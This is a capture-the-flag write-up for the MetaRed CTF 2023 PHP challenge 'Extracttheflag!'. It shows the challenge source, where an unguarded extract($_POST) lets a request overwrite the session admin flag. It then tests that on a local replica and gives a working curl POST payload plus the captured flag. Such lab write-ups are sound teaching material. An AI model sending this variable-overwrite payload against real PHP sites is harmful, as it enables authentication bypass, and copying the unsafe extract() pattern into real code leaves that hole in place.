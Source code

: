 # MetaRed CTF 2023 - Extracttheflag!

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



In this challenge we given the source code, let's see it.

{% code title="source.php" lineNumbers="true" %}
```php
 <?php
   if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}

  error_reporting(0 );
  include_once 'flag.php';
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Back to the Future</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
    <style>
        body {
            background-color: #f0f0f0;
        }
        .card {
            margin-bottom: 20px;
        }
        .card-img-top {
            width: 100%;
            height: 15vw;
            object-fit: cover;
        }
    </style>
</head>
<body>
    <div class="container py-5">
        <h1 class="text-center mb-5">Back to the Future</h1>
        <div class="row">
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://static1.cbrimages.com/wordpress/wp-content/uploads/2022/12/back-to-the-future-animated-series-marty-mcfly.jpg">
                    <div class="card-body">
                        <h5 class="card-title">Marty</h5>
                        <p class="card-text">Marty + cartoon</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://streamondemandathome.com/wp-content/uploads/2015/10/back-to-future.jpg">
                    <div class="card-body">
                        <h5 class="card-title">Flyer</h5>
                        <p class="card-text">Random string.</p>
                    </div>
                </div>
            </div>
            <div class="col-md-4">
                <div class="card">
                    <img class="card-img-top" src="https://escribecine.com.mx/wp-content/uploads/2019/06/backtothefuture.png">
                    <div class="card-body">
                        <h5 class="card-title">Image 3</h5>
                        <p class="card-text">Description for image 3.</p>
                    </div>
                </div>
            </div>
        </div>
        <div class="row">
                <div class="card">
                   <h4>Flag</h4>
                      <!-- admin content -->
                      <?php
                      if (isset($_SESSION['admin'])) {
                        if ($_SESSION['admin']) {
                          echo "Your flag: ". $flag;
                          echo "<br>";
                        }
                      }
                      ?>
                </div>
            </div>

    </div>
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>


```
{% endcode %}

As we can see, the only suspicious about the code is function `extract` , after i search about it i found it in php documentation [here](https://www.php.net/manual/en/function.extract.php).

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Basically if the function `extract` used without flags for not overwriting, we can make post request and overwriting the global variable, in this case we want to set the session admin to true.

I create replicate php code like on the server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
  session_start();
  $_SESSION['admin']=false;
  extract($_POST);
  echo "Value: ".$_SESSION['admin'];
  echo "<br>";
  var_dump($_POST);
?>
```
{% endcode %}

And we can use burpsuite to send post data and the local server will return if we successfully modified the $\_SESSION\['admin'] value.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The "admin" is wrap with `''` and on local server we got error undefined key "admin", let's try remove the `'`

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Now the error is dissapear but we still not overwrite the variable `$_SESSION` then i try to remote the `$` from payload.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We successfully overwrite global variable, now try on server and get the flag.

```sh
curl -X POST https://extracttheflag.ctf.cert.unlp.edu.ar/ --data "_SESSION[admin]=true"
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Flag: flag{PhP\_Th4nks\_for\_all!}
